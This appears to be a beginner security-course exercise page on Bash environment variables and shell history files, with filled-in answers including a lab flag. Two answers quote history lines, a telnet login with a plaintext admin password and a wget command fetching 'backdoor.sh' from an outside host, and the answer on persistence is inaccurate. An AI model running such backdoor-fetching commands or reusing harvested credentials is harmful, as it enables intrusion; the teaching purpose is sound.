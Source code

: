 ## Exercises

1. On your student machine what is the value of the FLAG environment variable ?

> FLAG : BC{EXPORT_B4SH_FLAG}

2. Currently if you notice your machine, the variable you have created will be deleted. What should you do to make your variable persistent? (With a Bash shell).

> Commands : export command=something

3.  **From a hacker's perspective**, look for information that might be useful to you in the ``.history`` file.

> Your answer : 119 telnet 10.21.55.98 -login admin -pass MyP4ssW0rDiS3CuR3!

4.  **From an analyst's perspective**, look for information that might be useful to you in the ``.history`` file.

> Your answer : 95 wget http://10.88.56.53/backdoor.sh and the following lines

[Next](./07-Protocols_and_Servers.md)
